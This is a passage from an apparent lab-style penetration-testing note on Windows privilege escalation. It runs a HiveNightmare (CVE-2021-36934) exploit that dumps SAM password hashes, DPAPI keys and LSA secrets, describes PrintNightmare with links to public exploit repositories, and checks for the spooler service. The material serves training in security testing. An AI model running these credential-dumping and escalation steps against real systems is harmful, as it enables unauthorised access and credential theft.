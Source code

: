In our case, we have a vulnerable version as the file is readable by the `BUILTIN\Users` group.

**Performing Attack and Parsing Password Hashes**

Run the exploit the could dump the hash

```powershell-session
PS C:\htb> .\CVE-2021-36934.exe

[*] SAM: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\sam
[*] SYSTEM: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system
[*] SECURITY: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\security
[*] Copying files to C:\windows\temp\
[*] SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6
[*] Cached domain logon information(domain/username:hash)
[*] LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:c3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960

[*] Cleaning up..
```

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` -> The flaw allowed any authenticated user to add a print driver to a Windows system without privilege, allowing an attacker full remote code execution as SYSTEM on any affected system.

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}
execute a malicious DLL remotely or locally using a modified version of Impacket
{% endembed %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}
for quick local privilege escalation
{% endembed %}

**Checking for Spooler Service**

```powershell-session
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```
